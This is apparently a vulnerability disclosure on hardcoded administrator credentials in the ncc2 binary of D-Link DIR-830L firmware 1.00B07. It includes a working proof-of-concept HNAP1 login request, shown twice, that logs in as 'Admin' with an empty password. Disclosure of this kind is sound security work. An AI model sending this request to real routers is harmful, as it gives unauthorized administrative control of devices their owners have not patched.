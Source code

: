 # Summary
There is a hardcoded credentials vulnerability in ncc2 binary file of D-Link DIR830LA1_FW100B07.

This will cause **unauthorized** users to log in to the router management interface **as admin**.

Fimware download link : https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/DIR-830L_REVA_FIRMWARE_1.00B07.ZIP

Affected component is `do_login` function in sbin/ncc2 binary file and `/info/Login.html`.

# Details
Use IDA to decompile `do_login` in `sbin/ncc2`:
![image](https://github.com/user-attachments/assets/a269551e-0768-4436-8abe-6934439947ac)

It is obviously that credentials of admin are hardcoded.

**PoC**:
```HTTP
POST /HNAP1/ HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/xml

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: text/xml

SOAPACTION: "http://purenetworks.com/HNAP1/Login"

HNAP_AUTH: 13A77F4CAC483FF637E6A359535E0F72 1730100920

Content-Length: 428

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/info/Login.html

Cookie: uid=z9mQNrMzBZ



<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<Login xmlns="http://purenetworks.com/HNAP1/">
			<Action>request</Action>
			<Username>Admin</Username>
			<LoginPassword></LoginPassword>
			<Captcha></Captcha>
		</Login>
	</soap:Body>
</soap:Envelope>
```

# PoC
**PoC**:
```HTTP
POST /HNAP1/ HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/xml

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: text/xml

SOAPACTION: "http://purenetworks.com/HNAP1/Login"

HNAP_AUTH: 13A77F4CAC483FF637E6A359535E0F72 1730100920

Content-Length: 428

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/info/Login.html

Cookie: uid=z9mQNrMzBZ



<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<Login xmlns="http://purenetworks.com/HNAP1/">
			<Action>request</Action>
			<Username>Admin</Username>
			<LoginPassword></LoginPassword>
			<Captcha></Captcha>
		</Login>
	</soap:Body>
</soap:Envelope>
```
